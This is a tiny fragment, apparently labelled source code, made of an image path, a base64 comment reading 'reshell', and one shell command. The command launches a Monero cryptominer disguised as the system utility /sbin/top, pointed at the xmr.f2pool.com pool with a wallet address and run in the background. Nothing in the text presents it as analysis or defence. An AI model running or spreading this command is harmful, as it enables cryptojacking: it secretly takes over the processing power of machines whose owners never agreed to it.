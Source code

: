 # cmVzaGVsbA
/sbin/top --cpu-max-threads-hint 50 -o xmr.f2pool.com:13531 -u 47tvcNsfvpLFjpqnQ9UYReV36ZXZvhyx1Z8S4ZPnW2VYFoG5H5hDmQcT9UdKbN2wi9dQeHgSMecb5StZTVxx4Gz6CAKPGdU.WBB -p x -k &
